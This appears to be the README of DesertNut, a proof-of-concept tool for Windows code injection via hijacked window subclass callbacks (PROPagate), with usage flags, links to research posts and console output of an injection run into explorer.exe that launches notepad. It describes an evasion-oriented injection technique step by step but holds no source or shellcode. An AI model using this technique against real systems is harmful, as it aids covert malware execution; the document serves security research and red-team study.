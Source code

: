 ### DesertNut

DesertNut is a proof-of-concept for code injection using subclassed window callbacks (more commonly known as PROPagate). The pertinent part here is that this does not use any suspect thread creation API's, instead as implied it hijacks window callbacks. DesertNut includes two flags: "-l" to list all potential properties that could be hijacked and "-i" to inject shellcode into explorer and execute notepad. Note that this POC is only designed for x64 (tested on Win10 RS5 & Win7) since it requires custom shellcode with a specific callback function prototype. For further details please see [this post](http://www.hexacorn.com/blog/2017/10/26/propagate-a-new-code-injection-trick/) by Hexacorn and [this post](https://modexp.wordpress.com/2018/08/23/process-injection-propagate/) by modexp.

```
C:\> DesertNut.exe -i
           ,                        '           .        '        ,
   .            .        '       .         ,
                                                   .       '     +
       +          .-'''''-.
                .'         `.   +     .     ________||
       ___     :             :     |       /        ||  .     '___
  ____/   \   :               :   ||.    _/      || ||\_______/   \
 /         \  :      _/|      :   `|| __/      ,.|| ||             \
/  ,   '  . \  :   =/_/      :     |'_______     || ||  ||   .      \
    |        \__`._/ |     .'   ___|        \__   \\||  ||...    ,   \
   l|,   '   (   /  ,|...-'        \   '   ,     __\||_//___
 ___|____     \_/^\/||__    ,    .  ,__             ||//    \    .  ,
           _/~  `''~`'` \_           ''(       ....,||/       '
 ..,...  __/  -'/  `-._ `\_\__        | \           ||  _______   .
              '`  `\   \  \-.\        /(_1_,..      || /
                                            ______/''''

[+] Searching for Subclass property..
[>] PID: 10928, ImageName: explorer
    |-> ParentClassName: Progman, ChildClassName: SHELLDLL_DefView
[+] Duplicating Subclass header..
[>] hProc: 0x378
[>] hProperty: 0x6B14DD0
    |-> uRefs: 2, uAlloc: 3, uCleanup: 0
    |-> dwThreadId: 5804, pFrameCur: 0
    |-> pfnSubclass: 0x7FFA20E42280 --> comctl32!CallOriginalWndProc (?)
    |-> uIdSubclass: 0, dwRefData: 0x7FFA2E4C07D0
[+] Allocating remote shellcode..
    |-> Sc Len: 344
    |-> Sc Address: 0x3220000
[+] Rewriting local SUBCLASS_HEADER..
[+] Allocating remote SUBCLASS_HEADER..
    |-> Subclass header Len: 48
    |-> Subclass header Address: 0x3260000
[+] Updating original UxSubclassInfo subclass procedure..
[+] Trigger remote shellcode --> notepad..
[+] Restoring original UxSubclassInfo subclass procedure..
[+] Freeing remote SUBCLASS_HEADER & shellcode..

C:\> DesertNut.exe -l
           ,                        '           .        '        ,
   .            .        '       .         ,
                                                   .       '     +
       +          .-'''''-.
                .'         `.   +     .     ________||
       ___     :             :     |       /        ||  .     '___
  ____/   \   :               :   ||.    _/      || ||\_______/   \
 /         \  :      _/|      :   `|| __/      ,.|| ||             \
/  ,   '  . \  :   =/_/      :     |'_______     || ||  ||   .      \
    |        \__`._/ |     .'   ___|        \__   \\||  ||...    ,   \
   l|,   '   (   /  ,|...-'        \   '   ,     __\||_//___
```